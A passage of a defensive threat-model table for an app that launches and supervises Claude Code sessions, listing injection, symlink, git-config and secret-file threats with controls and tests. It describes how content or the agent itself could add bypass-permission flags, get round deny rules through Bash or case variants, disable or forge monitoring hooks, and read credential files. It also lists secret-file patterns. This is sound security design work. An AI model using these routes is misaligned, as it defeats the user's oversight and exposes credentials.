| T-015 | E | **Shell injection**: a step, git command or probe runs through a shell, so content becomes commands. | L | H | One `spawn` module; argv arrays only; clippy `disallowed-methods` on `Command::new`/`CommandBuilder::new` elsewhere. The single consented login-shell PATH capture requires `$SHELL` in `/etc/shells` (SR-02). | SR-02 | clippy `disallowed-methods`; `spawn::no_shell_in_any_code_path`; `doctor::login_path_requires_consent`; AC-XC-01, AC-F019-12 | Low |
| T-016 | T, E | **Flag injection from content**: packet, overlay, ticket or blueprint text adds or changes flags (`--dangerously-skip-permissions`, `--permission-mode bypassPermissions`, `-p`, `--settings <other>`, `--model`). | M | H | `build_argv` emits only a fixed flag enum with enum or regex-checked values; forbidden flags; `bypassPermissions` rejected anywhere in the blueprint or overlay (SR-03). Content is never parsed for flags (SR-27). | SR-03, SR-27 | `argv::only_known_flags` (property over every template and overlay step), `argv::never_contains_forbidden_flags`, `template::rejects_bypass_permissions`, `abuse::packet_text_cannot_change_flags`; AC-F008-14, AC-F001-10, AC-F025-05, AC-F006-09 | Low |
| T-017 | T | The **prompt is read as an option** (leading `-`), a slash command (`/`) or bash mode (`!`) by Claude Code. | M | M | The prompt is the final positional argument; after trimming, a leading `-`, `/` or `!` is rejected (SR-04). | SR-04 | `argv::rejects_option_like_prompt`, `argv::positional_prompt_snapshot`; AC-F008-12 | Low |
| T-018 | T, I, E | **Environment injection** from Foreman's own environment: `ANTHROPIC_API_KEY`/`ANTHROPIC_BASE_URL` (billing), `CLAUDE_CODE_USE_BEDROCK` (provider), `DYLD_*`/`NODE_OPTIONS` (code injection), `BASH_ENV`/`ENV`, `GIT_*`. | M | H | `env_clear()` plus an allowlist; an always-removed list that beats the pass-through (SR-05). **Gap (finding F-2):** SR-05's removed list is narrower than SR-07's blocked env patterns. `*_PROXY`, `NODE_EXTRA_CA_CERTS`, `NODE_TLS_REJECT_UNAUTHORIZED`, `SSL_CERT_FILE`/`SSL_CERT_DIR` and `CLAUDE_CODE_*` (other than `CLAUDE_CODE_OAUTH_TOKEN`) can still be passed through from Foreman's env by Billy's pass-through list, and that list can be altered by T-004. | SR-05, SR-57 | `env::allowlist_only`, `env::denylist_beats_passthrough`, `env::oauth_token_passed_when_present`, `pty::child_env_exact`; AC-F008-15; ⚑ NEW `env::removed_list_covers_blocked_patterns` | Low once F-2 is applied |
| T-019 | E | **PATH hijack**: a PATH entry inside a project, a world-writable, relative, empty or `.` entry lets a repo shadow `node`, `pnpm` or `git` for Claude's Bash tool. | M | H | Each PATH entry must be absolute, existing, not inside a registered project and not world-writable; others are dropped (SR-05, ADR-007 §5). | SR-05 | `env::path_entries_sanitized`; AC-F008-15 | Low |
| T-020 | S, T, I | **Auth or billing switch through Claude config**: any settings source (user, managed, project, local, `~/.claude.json` project `env`) sets `apiKeyHelper`, `awsAuthRefresh`, `awsCredentialExport`, `gcpAuthRefresh`, `otelHeadersHelper`, or an `env` key such as `ANTHROPIC_*`, `CLAUDE_CODE_*`, a proxy or a CA override, so the session bills an API key or routes through an interceptor. | M | H | SR-07 blocks the launch and names the file and key (the only exception is Billy's allowlisted user-settings hash). SR-08: `claude auth status` in the step cwd with the exact launch env, fail-closed, only `claude.ai`/`oauth_token`, cached against the full fingerprint. | SR-07, SR-08 | `preflight::blocks_<key>` (one per key and pattern), `preflight::allowlisted_user_key_passes`, `preflight::blocks_api_key_auth`, `preflight::auth_unknown_output_blocks`, `preflight::auth_checked_in_step_cwd`; AC-F008-05, AC-F008-08, AC-F008-09, AC-F008-22, AC-F019-05 | Low (RR-07 for server-managed and MDM settings) |
| T-021 | T, E | **Silent change to Claude Code's inputs** between launches: a new hook, MCP server, project agent, skill, rule, output style, ancestor `CLAUDE.md` or `@` import, plugin, or a changed hook/`statusLine`/helper script. Its code then runs in Billy's next session unseen. | H | H | Fingerprint of every source SR-06 lists, with any change shown as a **redacted** diff that needs one acknowledgement (SR-06, SR-55). Files over 256 KB block the launch (SR-31). A stat cache keeps it fast. | SR-06, SR-55, SR-31 | `preflight::hook_script_change_detected`, `preflight::ancestor_claude_md_detected`, `preflight::user_mcp_server_detected` (one test per source); `preflight::diff_shows_redacted_change`; AC-F008-04, AC-F008-06, AC-F008-24 | RR-08 (acknowledgement fatigue; acknowledged code still runs) |
| T-022 | E | The **auth check itself runs repo-controlled code**: `claude auth status` in the step cwd loads project settings, and could execute an `apiKeyHelper` or settings-`env` effect before SR-07 has looked. | M | H | Fixed order: the fingerprint and SR-07 block scan pass first, and only then `auth status` runs (SR-08, ADR-021 §1). | SR-08, SR-07 | `preflight::auth_after_fingerprint` | Low |
| T-023 | E | **Bypass mode enabled from another settings scope** (`defaultMode: bypassPermissions` in a repo file), or a `--allow-dangerously-*` path. | L | H | The run settings set `permissions.disableBypassPermissionsMode: "disable"`, which "works from any scope" (ADR-021 doc check). The argv never carries bypass flags (SR-03). `--permission-mode` is always passed explicitly. | SR-09, SR-03 | `run_settings::contents_snapshot`; `argv::never_contains_forbidden_flags`; S-1′ probe check (run settings parse); AC-F008-16 | Low |
| T-024 | T | A **repo disables hooks** (`disableAllHooks: true`) to blind the sensor (P2), so "idle" is inferred wrongly. | M | M | The run settings set `disableAllHooks: false`; command-line settings outrank project settings (SR-09). Without events, the P1 manual idle confirmation stays (AC-F011-09). | SR-09, SR-13 | `run_settings::contents_snapshot`; AC-F011-09 | Low |
| T-025 | T | **Claude edits `.foreman/` decision files or app data with its Edit/Write tools**, by accident or on injected instructions. | H | H | Run-settings deny rules with absolute `//` paths: `Read`/`Edit` on `//<repo>/.foreman/**` and `//<app-data>/**` (SR-09). The real control is SR-40 (T-063). | SR-09, SR-40 | `run_settings::deny_paths_absolute` (cwd = project and cwd = spec), `run_settings::fresh_per_run`; `decisions::outside_edit_has_no_effect_until_accepted` | Low |
| T-026 | T, E | **The deny rules are bypassed**: (a) through Bash (`sed -i`, `cat >`, `git checkout`), which Read/Edit rules don't bind; (b) through a case variant (`.FOREMAN/project.json`) that names the same file on case-insensitive APFS if Claude Code's matcher is case-sensitive (**UNVERIFIED**, finding F-9). | M | M | SR-40 is the boundary: an outside change has no effect until Billy accepts it, whatever wrote it. App-data edits fall under RR-02. **Recommended:** S-1′ adds a case-variant probe; if it bypasses, add case-variant deny rules or record that the deny is advisory only. | SR-09, SR-40 | `decisions::outside_edit_has_no_effect_until_accepted`; ⚑ NEW `run_settings::deny_case_variant_probe` (S-1′ check) | RR-01 |
| T-027 | T, E | **Mid-session config reload**: Claude Code reloads settings during a session (documented, including `apiKeyHelper`). A session (or Billy's "Yes, and don't ask again") writes a hook, allow rule or helper into `.claude/settings.local.json`, and it applies at once, before any fingerprint check. | M | H | The next launch fingerprints and blocks (SR-06, SR-07). The watcher marks `config:changed` for open runs so the UI warns; nothing is triggered (ADR-021 §7, SR-18). Doctor warns on broad allow rules (AC-F019-10). | SR-06, SR-07, SR-18 | `preflight::hook_script_change_detected`; AC-F019-10; ⚑ NEW `watcher::config_changed_marks_open_runs` (ADR-021 names the behavior but no test) | RR-06 |
| T-028 | I | **`CLAUDE_CODE_OAUTH_TOKEN` is exposed** through the child environment: Claude's Bash can print `env`, and the output tail (PR-02c) can capture it. | M | H | Passed only when present in Foreman's own environment (Billy's choice) (SR-05). The run log stores env names only (SR-52). Output tails are `0600` and pruned after 90 days (SR-53). Diagnostics never log terminal output (SR-54). | SR-05, SR-52, SR-53, SR-54 | `env::oauth_token_passed_when_present`, `runlog::no_env_values`, `fs::app_data_permissions`, `retention::tail_pruned_after_90_days` | RR-18 |
| T-029 | D, T | **Ending a non-idle session** loses background work, or `/exit` typed into a non-empty input box sends Billy's draft as a prompt. | M | M | Ctrl-C (clears input), 150 ms, then `/exit`. No SIGTERM/SIGKILL without idle confirmation (Billy in P1, the sensor in P2) or explicit Terminate confirmation (SR-13, ADR-008). | SR-13 | `rearm::ctrl_c_then_exit_order`, `rearm::no_kill_without_idle_or_confirm`; AC-F010-04, AC-F010-05, AC-F009-04 | RR-10 (P1 idle relies on Billy) |
| T-030 | T, D | **Session identity confusion**: `--session-id` with `--resume`, resuming the wrong conversation, a cwd differing from the chain's, or a chain whose transcript Claude Code deleted. | H | M | `--session-id` only at chain start (or with `--fork-session` if S-8 passes) (SR-14). The chain cwd is enforced by the grammar (AC-F001-09). The transcript is checked for existence only and `Broken` offers "Start a fresh chain with context" (ADR-008). | SR-14 | `argv::session_id_only_on_chain_start_or_fork`, `chain::broken_when_transcript_missing`, `chain::superseded_on_rerun`, `chain::fork_argv`; AC-F010-01, AC-F010-02, AC-F010-09 | Low |
| T-031 | E | **An action or usage happens without Billy**: a file event, terminal output, Claude output or sensor event starts a launch, re-arm, Ctrl-C, `/exit`, terminate or paste, burning subscription usage or acting on injected text. | M | H | Only user invokes start session-affecting actions; events and the watcher only bump revisions; module-dependency tests (SR-18). Probes use `--init-only` only (zero tokens). | SR-18, SR-17 | `rearm::only_from_user_action`, `sensor::events_only_update_state`, `watcher::events_never_act`; AC-F010-07, AC-F011-08, AC-XC-19 | Low |
| T-032 | E | **A risky launch runs without Billy noticing**: an overlay-added step, a changed mode or model, `auto`/`dontAsk`, the first launch in a project, the first launch after a Claude Code update. | M | H | A confirmation with a stated reason; prompt, argv and env names one click away (SR-19). | SR-19 | `preflight::confirm_required_for_{overlay_step,mode_change,auto_and_dontask,first_launch,version_change}`; AC-F008-17, AC-F008-18 | Low (see T-003 for forgery) |
| T-033 | R | **No reliable record of what launched**, so a bad run can't be traced. | M | M | A run record before spawn with the argv (prompt hashed), env names, cwd, run-settings hash, Claude version, intended model/effort/mode; the stage record holds intended and observed (SR-19, SR-52, ADR-018). | SR-19, SR-52 | `runlog::record_before_spawn`, `runlog::argv_prompt_redacted`; AC-F008-19 | Low |
| T-034 | I, E, D | **Process hygiene**: the child inherits Foreman's fds (an app-data handle), shares its session, survives quit as an orphan, or is relaunched after a crash. | M | M | `env_clear()` + allowlist; `setsid` (PTY) or `process_group(0)` (non-PTY, accepted in the 4.7 review; SR-57 amended); no fds above 2; umask 022; SIGHUP on quit after the guard; `interrupted` and never auto-relaunched (SR-57). | SR-57 | `pty::child_env_exact`, `pty::no_inherited_fds`, `spawn::no_inherited_fds`, `lifecycle::crash_leaves_interrupted`; AC-XC-31, AC-F008-25, AC-F009-09, AC-F020-10 | Low (RR-16 closed) |
| T-035 | E | An **unhardened headless `claude -p`** run loads repo hooks, `env`, helpers and MCP servers with no trust prompt (r4 R-01). | L | H | v1 makes no `-p` calls; the argv enum has no print mode (SR-16). The v1.1 hardened argv is in r5 §2.1. | SR-16 | `argv::no_print_mode_in_v1`; AC-XC-03 | Low |
| T-036 | T | **Claude Code updates and changes behavior**: a renamed flag, changed hook schema, changed auth output, changed permission semantics, or `--bare` becoming a default. | H | M | The floor is checked on every launch; contract probes on version change (pass, flag failure, inconclusive); the first launch after an update needs confirmation; fake-claude contract tests; Doctor capability table (SR-17, SR-19, ADR-017). Auth is fail-closed on unknown output (SR-08). | SR-17, SR-19, SR-08 | `compat::blocks_below_floor`, `compat::parses_version_output`, `probe::runs_on_version_change`, `probe::failure_disables_feature`, `probe::inconclusive_keeps_state`, `preflight::confirm_required_for_version_change`, `preflight::auth_unknown_output_blocks`; AC-F008-01, AC-F008-21, AC-F019-15, AC-F019-16 | RR-11 |

#### 3.4.2 Non-session `claude` calls and helper programs (E5)

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-037 | E, D | **Contract probes run somewhere hostile** (a project folder with hooks and MCP servers), spend tokens, or hang. | L | M | Probes run only in `<app-data>/probe/`, recreated `0700` with Foreman's files only, trusted once; `--init-only` only; 20 s timeout (SR-17). | SR-17 | `probe::runs_only_in_probe_dir`, `probe::dir_reset_before_run`; AC-F019-17 | Low |
| T-038 | E | **Helper spawns pick up repo config through their cwd**: `pnpm --version` run in a repo honors `packageManager` and can trigger a Corepack download and exec of another pnpm (network plus code); `claude -v` or the login shell runs inside a repo. The cwd of these spawns isn't specified anywhere (finding F-5). | L | M | Programs are allowlisted with `--version` only (SR-01). **Applied (F-5):** every non-session spawn (`claude -v`, toolchain probes, the login-shell capture) uses `cwd = <app-data>`; only `claude auth status` (SR-08) and the session use the step cwd. | SR-01, SR-02, SR-60 | AC-F019-11; ⚑ NEW `spawn::helper_cwd_is_app_data` | Low |

#### 3.4.3 git (E3, F5)

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-039 | E | **Repo `.git/config` runs code** through: hooks (including `reference-transaction` on `update-ref`, which plumbing doesn't avoid); `core.fsmonitor`; filter drivers (`clean`, `smudge`, `process`) on `add`; `gpg.program`/`commit.gpgSign`; `core.sshCommand`; pager; editor; external diff; textconv; credential helper; a fetch protocol. | M | H | Everything goes through `git::run` (SR-44), with a cleared env and `-c core.hooksPath=/dev/null -c core.fsmonitor=false -c core.pager=cat -c core.editor=true -c sequence.editor=true -c commit.gpgSign=false -c tag.gpgSign=false -c core.sshCommand=false -c credential.helper= -c protocol.allow=never`; only DR-140's plumbing operations. Blobs are written only by `hash-object -w --no-filters`; commits are plumbing-only and always `commit-tree --no-gpg-sign` (SR-42, SR-45, DR-144); Foreman never runs `status`, `diff`, `add` or `commit`. | SR-44, SR-45, SR-42 | `git::single_entry_point`, `git::invocation_snapshot`, `git::no_hooks_on_any_command`, `git::filter_driver_never_runs`, `git::repo_gpg_program_never_runs`; AC-XC-04, AC-F014-07, AC-F014-12 | Low |
| T-040 | E | **`git status` and `git diff` run clean filters** too. To decide whether a racily-clean index entry changed, git hashes the working-tree file "as it would be added", which applies repo `.gitattributes` filter drivers. SR-45's `--no-filters` covers `hash-object` only (finding F-3). | L | H | **Applied (F-3):** replace the dirty check and diff calls with plumbing comparisons (`cat-file` blob vs Foreman's own `hash-object --no-filters --stdin` of bytes read through `store`), or neutralize attributes for those calls (for example `--attr-source` set to the empty tree, **UNVERIFIED** for the git versions Billy has). Then extend the filter test to status and diff with a racily-clean index. | SR-45 | ⚑ NEW `git::status_and_diff_never_run_filters` | Low |
| T-041 | T | **git operates on the wrong repository**: the project root has no `.git`, so git discovery walks up to an enclosing repo (for example a home-directory dotfiles repo) and Foreman commits there; or a `.git` file points elsewhere (finding F-4). | L | H | `git -C <root>`; cleared env, so no `GIT_DIR`. **Applied (F-4):** before every write operation, require `rev-parse --show-toplevel` to equal the canonical root (or set `GIT_CEILING_DIRECTORIES` to the root's parent), and show a linked worktree's common dir to Billy at setup. | SR-44, SR-45 | `atomic::exclude_writer_scope` (`.git` file pointing outside); ⚑ NEW `git::refuses_enclosing_repo` | Low |
| T-042 | E | **Env injection into git** (`GIT_DIR`, `GIT_CONFIG_*`, `GIT_EXEC_PATH`, `GIT_SSH_COMMAND`) from Foreman's own environment. | L | H | `env_clear()`, then only `HOME`, a fixed `PATH`, `LANG=C`, `GIT_TERMINAL_PROMPT=0`, `GIT_OPTIONAL_LOCKS=0`, and `GIT_INDEX_FILE` only for the temp index (SR-45). | SR-45 | `git::env_cleared`; AC-XC-04 | Low |
| T-043 | D | **git hangs** (pinentry, a lock, a huge repo) and blocks signing or setup. | M | L | 60 s timeout; output capped at 8 MB; `GIT_OPTIONAL_LOCKS=0`; a GUI pinentry only when global signing is on (SR-45, ADR-012). | SR-45 | `git::timeout`; AC-F014-12 | Low |

#### 3.4.4 `/usr/bin/open` (E4, F6)

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-044 | E | **Open file launches something executable**: a `.command`, `.app`, `.terminal`, `.webloc` or `.fileloc`; a `.md` that is a symlink to an `.app`; or the default handler for a repo-chosen type. | M | H | One Rust function: the path passes SR-31 (no symlinks, regular file, `nlink == 1`); extension `.md`, `.json` or `.txt` only; opened with `/usr/bin/open -b <editor bundle id> <absolute path>`, never the default app; reveal uses `open -R` (SR-25a). | SR-25a, SR-31 | `opener::open_file_refuses_executable_types` (including a `.md` symlink to an `.app`), `opener::uses_editor_bundle_id`; AC-XC-28 | Low (RR-14 for the editor's own behavior) |

#### 3.4.5 Sensor (P5, F8, F9; P2)

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-045 | S | A **forged sensor event** (`Stop`, `SessionEnd`) written by Claude's Bash or another process makes Foreman think a session is idle or ended. | M | M | A per-run token (244 bits) checked on ingest; events only update displayed state and enable buttons; re-arm still needs Billy's click and sends Ctrl-C then `/exit` (SR-15, SR-18). A same-user forger can read the token from the run settings (AS-3). | SR-15, SR-18 | `sensor::rejects_wrong_token`, `sensor::events_only_update_state`; AC-F011-03, AC-F011-08 | RR-02 |
| T-046 | T, E | The **sensor binary in app data is replaced**, so attacker code runs on every hook of every session. | L | H | The SHA-256 is verified against the build-time constant before each run settings file is written; on a mismatch Foreman re-copies once, then omits the hooks (SR-15, ADR-009). | SR-15 | `sensor::hash_checked_per_run`; AC-F011-02 | RR-02 (replacement between check and exec) |
| T-047 | E | **Shell-form hook injection**: the hook command is passed to `sh -c` and the "Application Support" path with a space (or a crafted run ID) splits into commands. | L | H | Exec form only (`command` + `args`); the run ID and token are Foreman-generated hex (SR-15). | SR-15 | `sensor::exec_form_only` | Low |
| T-048 | D, T | **Sensor abuse**: huge stdin, a symlinked or missing `events/<runId>/` directory that redirects writes, a slow sensor stalling Claude Code. | L | M | Stdin capped at 256 KB; `O_DIRECTORY\|O_NOFOLLOW` on the directory; `O_CREAT\|O_EXCL\|O_NOFOLLOW` with mode `0600` per file; exits in under 10 ms; prints nothing (SR-15). | SR-15 | `sensor::stdin_cap`, `sensor::exits_under_10ms`; AC-F011-04 | Low |
| T-049 | I | **Sensor events retain assistant text** (`last_assistant_message`) indefinitely. | M | M | At most 20 events per run; deleted at sign or 30 days after the run ends; `0600` (SR-53, PR-04). | SR-53, PR-04 | `retention::events_deleted_on_sign`, `retention::events_max_age`; AC-F011-07 | Low |
| T-050 | T | Foreman **installs user-level hooks** in `~/.claude/settings.json`, which then run in every Claude session Billy starts anywhere. | L | M | Hooks go only into the per-run `--settings` file; Claude config is read-only to Foreman (SR-10). | SR-10 | `fs_policy::denies_claude_settings_writes`; AC-F011-10, AC-XC-10 | Low |

### 3.5 TB3: Rust ↔ file system

#### 3.5.1 Path policy, reads and writes (F10–F13)

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-051 | T, E | **Traversal from content-sourced paths**: `out=`, `requires=`, REPO FILES, `write-blocks`, extra destinations or annotation paths with `..`, absolute paths, NUL or backslash. | M | H | Lexical `check_write`: repo-relative only, no `..`, absolute, NUL, control or bidi characters; the final path is inside the project root or app data (SR-30). Action destinations are Rust constants (SR-34). Paste-back lists every target first (SR-35). | SR-30, SR-34, SR-35 | `fs_policy::*` golden suite; `actions::destinations_fixed`; `assembler::rejects_policy_violations`; AC-F021-01, AC-F021-02, AC-F021-05, AC-F007-02, AC-F023-04 | Low |
| T-052 | E | **Foreman's own write plants code that runs later**: `.git/hooks/*`, `.claude/settings.json`, `.claude/agents/*` with hooks, `.husky/*`, `.github/workflows/*`, `.vscode/tasks.json`, `.mcp.json`, `.envrc`, `.gitattributes` (filter drivers), `.gitmodules`, `.npmrc`, `CLAUDE.md` / `CLAUDE.local.md` (loaded by every session). | M | H | Denied components `.git`, `.claude` (except the hard-coded `council-setup` destinations), `.husky`, `.vscode`, `.idea`, `.github`, `.foreman` (except decision writers); denied names `.mcp.json`, `CLAUDE.local.md`, `.envrc`, `.gitmodules`, `.gitattributes`, `.npmrc`; root `CLAUDE.md` only through the assembler with a confirmation that says Claude Code loads it in every session (SR-30). Claude config is never written (SR-10). Council agent files come from the locked blueprint (SR-03 rejects `bypassPermissions` in it), and SR-06 fingerprints them before the next launch. | SR-30, SR-10, SR-06 | `fs_policy::*` golden (`.git/hooks/pre-commit`, `spec/.claude/settings.json`, `spec/.mcp.json`, `claude.md` below the root, root `CLAUDE.md` without the assembler purpose); `fs_policy::denies_claude_settings_writes`; AC-F021-02, AC-F021-03, AC-F021-06, AC-XC-10 | RR-19 (other build files such as `package.json` stay writable by design) |
| T-053 | E | **Case and normalization variants** reach a denied location on case-insensitive APFS: `.GIT/hooks`, `.MCP.json`, `CLAUDE.MD`, a Kelvin-sign `.husKy`, NFD forms, an existing `.Git` reached through a differently cased input. | M | H | Each component is compared as `fold_string(nfc(c))` (ICU4X full case folding after NFC); after each `openat`, the FS-reported name (`F_GETPATH`) is checked again (SR-30, ADR-011). | SR-30 | `fs_policy::case_and_normalization_variants` (case-insensitive and case-sensitive volumes), `fs_policy::reported_name_checked`; AC-F021-08 | Low |
| T-054 | T, E | **Symlink escape on write**: a symlinked `docs/handoff`, a symlinked final file, or a planted symlink at the temp name sends Foreman's write outside the project (for example to `~/.zshrc`). | M | H | Component-wise `openat` with `O_DIRECTORY\|O_NOFOLLOW`; final `O_NOFOLLOW` + `O_NOFOLLOW_ANY`; the temp is created `O_CREAT\|O_EXCL\|O_NOFOLLOW` with a random name; all later operations use the held parent fd (SR-30, SR-32, ADR-011). | SR-30, SR-32 | `fs_policy::*` (symlinked `docs/handoff`, symlinked final file); `atomic::refuses_planted_tmp_symlink`; inode-checked proptest (ADR-011); AC-F021-04 | Low |
| T-055 | I | **Symlink or hard-link escape on read**: a packet that is a symlink or hard link to `~/.ssh/id_ed25519` or `~/.aws/credentials` gets displayed, diffed or pasted into a prompt. | M | H | Reads use the same no-symlink walk; `O_NOFOLLOW` on the last component; refuse non-regular files and `nlink > 1`; secret patterns on the folded key (SR-31, SR-50). | SR-31, SR-50 | `fs_policy::read_refuses_symlink_at_any_component`, `fs_policy::read_refuses_hardlink`, `secrets::symlink_to_secret_refused`; AC-F021-07, AC-F013-16 | Low |
| T-056 | T, I | The **watcher follows a symlinked root** (FSEvents resolves the watch root itself) and reports or reads files outside the project. | M | M | The watch root and its ancestors up to the project root are `lstat`-checked before watching and on every event; each event path is re-read through `store`; events are hints only (SR-31, ADR-013). | SR-31 | `watcher::symlinked_root_refused`, `watcher::no_symlink_follow`; AC-F013-05 | Low |
| T-057 | I | **Secret files are opened, displayed or watched**: `.env*`, `*.pem`, `*.key`, `id_*`, `*.p12`, `.npmrc`, `.netrc`, `.ssh/`, `.aws/`, `.config/gcloud/`. | M | H | `check_read` and the watcher filter use the secret patterns on folded keys; links can't route around them (SR-50). | SR-50 | `secrets::excluded_from_views_and_watcher`, `watcher::ignores_tmp_and_secrets`; AC-XC-11, AC-F013-04 | Low |
| T-058 | D | **Oversized or special files**: a 2 GB "packet", a FIFO that blocks `read`, a device file, or a 10 MB `.claude/settings.json`. | M | M | Regular files only; caps of 1 MB (packets, lessons, decision files) and 256 KB (Claude config, where larger blocks the launch); the size is checked by `fstat` before reading (SR-31). | SR-31 | `fs_policy::read_size_cap`; AC-F013-16, AC-F008-24 | Low |
| T-059 | T | A **crash or power loss mid-write** leaves a torn packet, decision file, `progress.json` or `run.json`. | M | H | Random temp with `O_EXCL`, `sync_all` (= `F_FULLFSYNC`), `renameatx_np`, directory fsync; torn index lines skipped; stale temps cleaned (SR-32, ADR-010). | SR-32 | `atomic::crash_injection` (kill at every step), `atomic::dir_sync_fallback`, `runlog::index_torn_line_skipped`; AC-F020-01, AC-F020-04 | Low |
| T-060 | T | **Foreman overwrites a newer edit** made by Claude, an editor or git between Foreman's read and its write. | H | H | `ReadStamp` plus `RENAME_SWAP` compare-and-swap; a mismatch swaps back and reports a conflict; `NOREPLACE` for new files (SR-33, ADR-010). | SR-33 | `atomic::refuses_newer_file` (interleaved external writes), `atomic::noreplace_conflict`, `atomic::swap_unsupported_fallback`; AC-F020-03, AC-F012-08, AC-F022-05 | Low |
| T-061 | T | **Temp files leak** into `git status`, Claude's `git add -A`, or the watcher. | H | L | `.<name>.<hex>.foreman-tmp`, appended once to `info/exclude`; the watcher ignores the pattern (SR-32). | SR-32 | `atomic::temp_excluded_from_git`, `watcher::ignores_tmp_and_secrets`; AC-F020-02 | Low |
| T-062 | T, E | The **exclude writer is redirected**: a `.git` file or `--git-path` result pointing outside the project, or a symlinked `info/exclude`. | L | M | The path comes from `rev-parse --git-path info/exclude`; symlinks and paths outside the project root or the repo's common git directory are refused; append only, idempotent (SR-32). | SR-32 | `atomic::exclude_writer_scope` (normal repo, linked worktree, `.git` file pointing outside); AC-F020-13 | Low |

#### 3.5.2 Decision files, blueprint and lock

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-063 | T | **Decision files change outside Foreman** (a Claude edit, an injected instruction, a `git checkout` or `stash pop`) and change conditions, skips, model policy, overlay steps or the lock without Billy's approval. | H | H | The effective config is always the **approved copy in app data**. An outside change to a decision field becomes Pending outside change, with a redacted diff and Accept/Reject, and has no effect until accepted. Variable-only changes reload with a toast. Unparsable or newer-schema files → read-only (SR-40, ADR-022). | SR-40, SR-55 | `decisions::outside_edit_has_no_effect_until_accepted` (one case per file), `decisions::variables_only_autoaccept`, `decisions::reject_restores_via_cas`, `decisions::pending_from_stage5_not_flagged`; AC-F022-01 to AC-F022-05 | Low (RR-02 for app-data edits) |
| T-064 | T | A **same-user process edits app data directly**: `approvals/<id>/*.json` (the effective config), `progress.json`, `settings.json`, the fingerprint cache (to hide a config change), or `templates/`. | L | H | AS-3 puts this inside the boundary. Partial controls: run-settings deny `Edit(//<app-data>/**)` stops Claude's Edit/Write tools (SR-09); `0700`/`0600` keeps other users out (SR-53); the cached template is re-hashed against the lock (SR-41). | SR-09, SR-53, SR-41 | `run_settings::deny_paths_absolute`; `fs::app_data_permissions`; `lock::hash_mismatch_read_only` | RR-02 |
| T-065 | T | A **tampered blueprint or lock**: the blueprint edited after pin, the lock and blueprint edited together, the lock pointing at another commit, or the cached template in app data edited. | M | H | The lock is a decision file (SR-40). At open, the lock is verified against the app-data template hash and against the blueprint repo at the locked commit via `git cat-file` (no filters or textconv). A mismatch → read-only. Pinning refuses a dirty blueprint file; re-pin after Stage 1 is refused (SR-41, ADR-005, ADR-022). | SR-41, SR-40, SR-45 | `lock::hash_mismatch_read_only`, `lock::restore_from_git`; AC-F002-02, AC-F002-04, AC-F002-05, AC-F002-06 | Low |
| T-066 | T, E, D | **Malicious annotations in the blueprint**: `start` mode `bypassPermissions`, `out=.git/hooks/x`, a continuing step with a different cwd, an `auto` item, an unknown key; or **deeply nested input** (`((((…` in a `when` expression, deeply nested blockquotes) that overflows the recursive-descent parser's stack. A stack overflow aborts the process; `catch_unwind` can't catch it. | L | M | The grammar rejects `bypassPermissions` always, checks paths with `check_write`, enforces mode/model/effort vocabularies, the chain cwd and block-level placement (SR-03, ADR-005). `auto`/`dontAsk` and overlay steps need confirmation (SR-19). The parser never panics on arbitrary input. **Gap (finding F-10):** no stated depth limit. | SR-03, SR-30, SR-19, SR-62 | `template::rejects_bypass_permissions`, `template::never_panics`; AC-F001-06, AC-F001-09, AC-F001-10, AC-F001-12, AC-F001-13; ⚑ NEW `template::deep_nesting_bounded` (expression and Markdown nesting depth limits, with an error, not an abort) | Low once F-10 is applied |
| T-067 | T | **Reordered inspection bullets** silently swap item kinds or retarget attestations. | M | M | Explicit item IDs; a per-item `textSha256` in the lock; a hash change → "re-confirm kind", with attest disabled until confirmed (SR-41, ADR-005). | SR-41, SR-47 | `template::swapped_bullets_reconfirm`; AC-F001-16, AC-F001-17 | Low |

#### 3.5.3 Reads outside projects, secrets, logs and retention

| ID | STRIDE | Threat | L | I | Mitigating control(s) | SR/PR | Proven by | Residual |
|---|---|---|---|---|---|---|---|---|
| T-068 | I | **Foreman reads beyond its need**: it indexes the home folder, opens transcripts, or reads arbitrary Claude config. | L | M | `store::outside` holds a fixed list; transcripts are `statat` only; blueprint auto-detect checks fixed candidates only; `std::fs` is clippy-denied elsewhere (SR-31a, PR-08, PR-03). | SR-31a, PR-08, PR-03 | `fs_policy::read_scope`, clippy `disallowed-methods`; AC-XC-30, AC-F019-03, AC-F008-10 | Low |
| T-069 | I | Foreman **reads the Claude credential store or keychain**. | L | H | No keychain API; `cargo deny` bans `security-framework` and `keyring`; auth state comes only from `claude auth status` (SR-51). | SR-51 | CI `deny`; AC-XC-12, AC-M0-06 | Low |
| T-070 | I | **Sensitive `~/.claude.json` content** (sign-in session, trust state) or secrets in settings (`env` values, API keys, MCP headers) end up retained or shown in config snapshots and diffs. | M | H | Only `mcpServers` (user and project scope) is extracted and canonicalized; snapshots redact `env`, `headers`, `apiKey*`, keys containing `token`/`secret`/`password` and secret-scanner matches to `‹redacted sha256:8›`; `0600`; deleted with the project (SR-55, SR-06). | SR-55, SR-06 | `preflight::config_snapshot_redacts_secrets`, `preflight::diff_shows_redacted_change`; AC-F008-23 | Low |
| T-071 | I | **App data is readable by other users**. | L | M | Directories `0700` and files `0600` from the first write; umask 022 for children doesn't widen app data, because Foreman sets modes explicitly (SR-53). | SR-53 | `fs::app_data_permissions`; AC-XC-14 | Low |
| T-072 | I | The **run log stores prompt text or env values**. | M | M | The argv is stored with the prompt replaced by `<prompt sha256:…>`; env names only; in `run.json`, the index and the Run log screen (SR-52, PR-03). | SR-52, PR-03 | `runlog::no_env_values`, `runlog::argv_prompt_redacted`; AC-F026-03, AC-F026-01 | Low |
| T-073 | I | **Diagnostic logs leak content**: prompts, packets, terminal output, env values, clipboard, or panic payloads. | M | M | A redaction `Layer` on content-bearing fields; the panic hook logs the location only; local, `0600`, 10 MB × 5, never uploaded (SR-54, SR-57). | SR-54, SR-57 | `logging::redaction` (snapshot from a full harness run); `ipc::panic_returns_typed_error`; AC-XC-13 | Low |
